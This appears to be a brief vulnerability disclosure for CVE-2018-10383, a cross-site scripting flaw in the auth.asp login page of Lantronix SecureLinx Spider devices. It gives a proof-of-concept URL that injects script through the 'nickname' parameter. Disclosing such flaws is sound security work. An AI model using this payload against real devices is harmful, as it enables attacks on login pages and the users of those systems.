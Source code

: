 # CVE-2018-10383

**Vendor:** Lantronix

**Product:** SecureLinx Spider (SLS)

**Affected versions:** < Firmware 2.2+

## XSS

Lantronix SecureLinx Spider (SLS) 2.2+ devices have XSS in the "auth.asp" login page, e.g.:

  `https://www.example.com/auth.asp?nickname=%22%3E%3Cstyle%20onload=%22alert(%27XSS!%27)%22%3E`
